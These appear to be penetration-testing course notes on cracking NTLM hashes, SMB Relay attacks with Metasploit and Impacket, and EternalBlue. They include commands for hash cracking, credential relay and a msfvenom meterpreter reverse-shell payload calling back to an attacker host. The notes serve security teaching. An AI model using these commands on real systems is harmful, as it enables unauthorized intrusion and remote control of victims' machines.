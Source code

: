 Since we cracked just a part of the hash, the real password may be longer than the found one.
`ruby halflm_second.rb -m <CompleteHash> -p <IncompletePassword>`: to obtain the entire password (a case-insensitive version of it).
`perl netntlm.pl -file hashpwd_netntlm -seed <CompletePassword>`: to obtain the case-sensitive password.
An alternative to obtain the case-insensitive password starting directly from the incomplete password found is:
`locate netntlm`, `perl netntlm.pl -file <HashesFilename> -seed <IncompletePassword>`, and then again: `perl netntlm.pl -file <HashesFilename> -seed <CompletePassword>`: to obtain the case-sensitive password.

(58/122) *NTLMv2* is adopted since Windows Vista, in this protocol the Type 3 message in a different way:
- NTLMv2 hash: HMAC-MD5(NTLMv1 hash, username+domain);
- NTLMv2 response: HMAC-MD5(NTLMv2 hash, challenge+BLOB)+BLOB;
BLOB contains (also) a client challenge and the timestamp.

Cracking the NTLMv2 hashes is infeasible if the password is strong enough (indeed the only possible attack now is the brute-force of the HMAC key).

(66/122) Anyway, there is another attack we can mount, to bypass the cracking phase just seen.
The *SMB Relay* is a MitM attack: the attacker captures the challenge from the server and sends it to the victim, then captures the response (so the challenge encrypted using the victim password hash) from the victim and sends it to the server, getting access to the server.
The attack works only if the victim has administrative privileges on the target machine.

`use exploit/windows/smb/smb_relay`: to use a Metasploit module for mounting the SMB Relay attack.
`show options`: to show the configuration options:
- SMBHOST: the (target) SMB server IP address;
- PAYLOAD: the payload to use (`windows/meterpreter/reverse_tcp`).
With `exploit`, Metasploit will start (once the victim connects to the server) a new meterpreter session.

Note that the use of NTLMv2 may not stop the attack.

(79/122) *Impacket* is another tool (in particular we will use its smbrelayx.py script) to mount the SMB Relay attack.
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<AttackerPort> -f exe -o <PayloadFilepath>`: to create the .exe payload that Impacket will execute on the target machine, where `-p` indicates the payload to use, `-f` the format of the payload, `-o` the output executable file, `LHOST` and `LPORT` are the host and the port to which the payload will connect.
`use exploit/multi/handler`: to use a special Metasploit module (the Metasploit Handler) for listening for incoming connections from the target machine.
`run` to start the handler.
`smbrelayx.py -h <TargetIP> -e <PayloadFilepath>`: to mount the attack, where `-e` sets the file to execute.
If the attack succeeds, Metasploit will start (once the victim connects to the server) a new meterpreter session.

(89/122) *EternalBlue* is one of the more impactful exploits affecting SMBv1, known to have helped carry out the NotPetya cyberattack.
Its usage arises in remote code execution.
In some cases the exploitation may result in the blue screen of death.

(94/122) *Client-side exploitation* targets installed applications such as browsers, browsers plugins, email clients.
